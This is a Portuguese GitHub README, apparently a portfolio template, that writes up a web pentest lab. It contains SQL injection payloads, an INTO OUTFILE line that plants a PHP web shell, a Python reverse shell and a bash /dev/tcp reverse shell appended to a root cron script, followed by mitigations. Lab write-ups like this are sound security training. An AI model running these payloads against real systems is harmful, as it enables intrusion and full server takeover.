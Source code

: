 # Lab Lion - Exploração Avançada de Vulnerabilidades

![Lab Banner](https://img.shields.io/badge/Category-Web%20Pentest-red) 
![Difficulty](https://img.shields.io/badge/Difficulty-Intermediate-orange) 
![Vulnerabilities](https://img.shields.io/badge/Vulnerabilities-3%20Critical-brightgreen)

## 📌 Visão Geral
Exploração completa de um ambiente vulnerável contendo múltiplas falhas críticas que permitiram:
1. **SQL Injection → RCE** (Injeção SQL com Execução Remota de Código)
2. **Upload de Web Shell** (Backdoor PHP)
3. **Escalonamento de Privilégios via Cron Jobs** (Root Access)

> ⚠️ **Nota Ética**: Todas as técnicas foram realizadas em ambiente controlado para fins educacionais.

## 🔍 Sumário Executivo

| Item | Detalhes |
|------|----------|
| **Data** | [Inserir data] |
| **Tempo de Exploração** | 2 horas |
| **Ferramentas** | Nmap, Burp Suite, Netcat, LinPEAS |
| **CVEs Relacionados** | CWE-89 (SQLi), CWE-434 (Upload Arbitrário) |

## 🎯 Metodologia

### 1. Reconhecimento Inicial
```bash
sudo nmap -p- -Pn -min-rate 300 -oG Allports 192.168.1.100
```
**Resultados:**
- Porta 80 (HTTP): Aplicação web vulnerável
- Porta 3306 (MySQL): Banco de dados exposto

### 2. Exploração de SQL Injection
**Payload inicial para detecção:**
```sql
' UNION SELECT 1,2,3,4,5,6,7#
```
**Exploração avançada:**
```sql
' UNION SELECT 1,@@version,3,4,5,6,7#
```
**Resultado:** MariaDB 5.5.68

### 3. Conversão para RCE via OUTFILE
```sql
' UNION SELECT 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7 
INTO OUTFILE "/var/www/html/includes/cmd.php"#
```
**Webshell acessível em:**
```
http://192.168.1.100/includes/cmd.php?cmd=id
```

### 4. Estabelecimento de Reverse Shell
**Payload Python:**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### 5. Escalonamento de Privilégios
**Vulnerabilidade encontrada:**
- Cron job executando como root:
```bash
/opt/lion/lion.backup.sh
```
**Exploração:**
```bash
echo "bash -i >& /dev/tcp/10.0.0.1/1337 0>&1" >> /opt/lion/lion.backup.sh
```

## 🛠️ Fluxo Completo de Ataque

```mermaid
graph TD
    A[Reconhecimento] --> B[SQL Injection]
    B --> C[Database Enumeration]
    C --> D[Webshell Upload]
    D --> E[Reverse Shell]
    E --> F[LinPEAS Scan]
    F --> G[PrivEsc via Cron]
    G --> H[Root Access]
```

## 📸 Evidências

1. **SQL Injection**:
   ![SQLi Proof](screenshots/sqli-proof.png)

2. **Web Shell**:
   ![Webshell](screenshots/webshell.png)

3. **Root Access**:
   ![Root Shell](screenshots/root-shell.png)

## 🛡️ Lições Aprendidas

### Vulnerabilidades Críticas
1. **Input não sanitizado** permitiu SQL Injection
2. **Configuração insegura** do MySQL (`secure_file_priv` desabilitado)
3. **Permissões inadequadas** em scripts agendados

### Mitigações Recomendadas
1. Implementar prepared statements
2. Restringir permissões de escrita no filesystem
3. Revisar todos os cron jobs com privilégios elevados

## 🧠 Habilidades Demonstradas

| Técnica | Nível | Ferramentas |
|---------|-------|------------|
| Enumeração de Rede | ★★★☆☆ | Nmap |
| Exploração SQLi | ★★★★☆ | Burp Suite |
| Pós-Exploração | ★★★★☆ | Netcat, LinPEAS |
| Análise de Vulnerabilidades | ★★★★☆ | Manual |

## 🔗 Recursos Úteis
- [OWASP SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Linux Privilege Escalation Checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)

---

```markdown
[![LinkedIn](https://img.shields.io/badge/-Connect%20on%20LinkedIn-blue?logo=linkedin)](https://linkedin.com/in/seuprofile)
[![TryHackMe](https://img.shields.io/badge/-TryHackMe%20Profile-212C42?logo=tryhackme)](https://tryhackme.com/p/seuuser)
[![GitHub](https://img.shields.io/badge/-More%20Labs-black?logo=github)](https://github.com/seuusuario)
```

> ✨ **Dica**: Atualize este README com suas informações pessoais e screenshots reais para um portfólio impactante!